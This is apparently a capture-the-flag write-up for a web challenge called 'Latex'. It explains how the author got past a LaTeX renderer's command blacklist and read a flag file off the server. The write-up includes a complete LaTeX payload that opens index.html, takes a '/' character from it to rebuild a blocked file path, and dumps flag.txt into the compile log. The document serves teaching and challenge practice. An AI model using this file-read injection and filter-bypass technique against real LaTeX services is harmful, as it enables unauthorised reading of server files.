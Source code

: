 
- **Challenge Name:**  Latex
- **Category:** Web
- **Difficulty:** Hard
- **Writeup Author:** HanzalaAbbasi 
- **Challenge Author(s):** HanzalaAbbasi


## Description
Explore the maze of LaTeX's PDF making and HTML data pulling to find the flag

# LaTeX Renderer Exploitation Guide

## Introduction
The website appears to be a renderer for LaTeX code. Writing LaTeX and clicking "Generate PDF" gives a link to the rendered PDF. The output LOG of the LaTeX renderer will also be displayed.

![image](https://github.com/user-attachments/assets/34581452-980e-4c7f-a657-9e10a635a9b2)


## PDF Link
While copying and pasting the provided link into your browser may lead to a PDF document, it may not contain the information you're expecting.

![image](https://github.com/user-attachments/assets/5643547e-6b77-419a-9f38-3d78498a7179)


## Finding the Flag
Looking at the source HTML indicates that we need to read the flag from a file found in `/home/Desktop/trustline/flag/flag.txt`.

![image](https://github.com/user-attachments/assets/58201958-df5a-4bac-8f7f-55ce0d034772)



## Blacklisted Characters Issue
I'm currently encountering an issue where certain characters are being masked, making it difficult to read the flag.

![image](https://github.com/user-attachments/assets/06478759-b913-4fa1-9216-76ccfc5950f8)


## Crafting LaTeX Code to Bypass Blacklisted Characters
Examining the backend code logic, specifically the highlighted section in blue, we can see that it uses a regular expression with `preg_match` to validate the `$CONTENT` variable. This validation checks for the presence of blacklisted commands such as "input", "include", "", "/", "write", "slash", or "^^". If any of these commands are found, the code outputs the message "BLACKLISTED commands used".

To create LaTeX code that bypasses blacklisted characters, it's crucial to have an in-depth understanding of LaTeX. This is because certain characters are blocked which are used to read the files, and without them, rendering a flag might not be possible.

![image](https://github.com/user-attachments/assets/60dcb466-30f6-415e-9045-60899f9c34ed)


## LaTeX Code Snippet
The below LaTeX code snippet is crafted to interact with an HTML file (`index.html`), extracting a specific character from a designated line within the file. Subsequently, this character serves as a crucial component in constructing a file path leading to another file (`flag.txt`). Let's delve into the code:

### Document Class and Packages:

- **`\documentclass{minimal}`**: This declaration assigns the document class as "minimal," tailored to yield a concise output.
- **`\usepackage{xstring}`**: Importing the **`xstring`** package furnishes the script with functionalities for string manipulation.

### Defining Directory Components:

- **`\def\a{home}`**, **`\def\b{Desktop}`**, **`\def\c{trustline}`**, **`\def\d{flag}`**, **`\def\e{flag.txt}`**: These directives establish variables encapsulating segments of the file directory path leading to flag.txt.

### Reading HTML File:

- **`\newread\file`**: This command initializes a file reading operation.
- **`\immediate\openin\file=index.html`**: Opening index.html for reading.
- **`\immediate\read\file to\fileline`**: Each line of the file is read into the macro **`\fileline`**.
- The initial six **`\immediate\read\file to\fileline`** commands handle the first six lines of index.html.
- **`\StrMid{\fileline}{22}{22}[\s]`**: Extracting the 22 character from the sixth line of index.html, storing it in the macro **`\s`**.

The sequence unfolds as follows:

- The first **`\immediate\read\file to\fileline`** reads the first line.
- The second **`\immediate\read\file to\fileline`** reads the second line.
- The third **`\immediate\read\file to\fileline`** reads the third line.
- The fourth **`\immediate\read\file to\fileline`** reads the fourth line.
- The fifth  **`\immediate\read\file to\fileline`** reads the fifth line.
- The six  **`\immediate\read\file to\fileline`** reads the sixth line.
- Consequently, the **`\StrMid{\fileline}{22}{22}[\s]`** command targets the 22 character from the sixth line of the index.html file, which is "/". We can utilize this character to construct our path and **circumvent the blacklisted characters filter.**

![image](https://github.com/user-attachments/assets/b4b469ea-493e-4688-a1df-554966180b98)



## Word Count Verification
The word count for the sixth line is shown below.

![image](https://github.com/user-attachments/assets/b0ad5ced-cb76-4a45-aaa7-377ae1953218)


```
\documentclass{minimal}
\usepackage{xstring}

\def\a{home}
\def\b{Desktop}
\def\c{trustline}
\def\d{flag}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{22}{22}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 

```

## Building File Path and Reading Content
Using the above LaTeX code will yield the flag.

![image](https://github.com/user-attachments/assets/45741195-8a7a-4221-a07e-0ff508399219)



## Verifying with Python Script
We can also run a Python script to verify that we have successfully obtained the flag through our LaTeX code.

![image](https://github.com/user-attachments/assets/283d4b32-7db4-458c-8124-7e3bf67d98b8)





## Flag
TRUSTLINE{YoU_HavE_SoLvED_LaTeX_HarD_ChAlleNGE_WeLl_DOne_Xd}
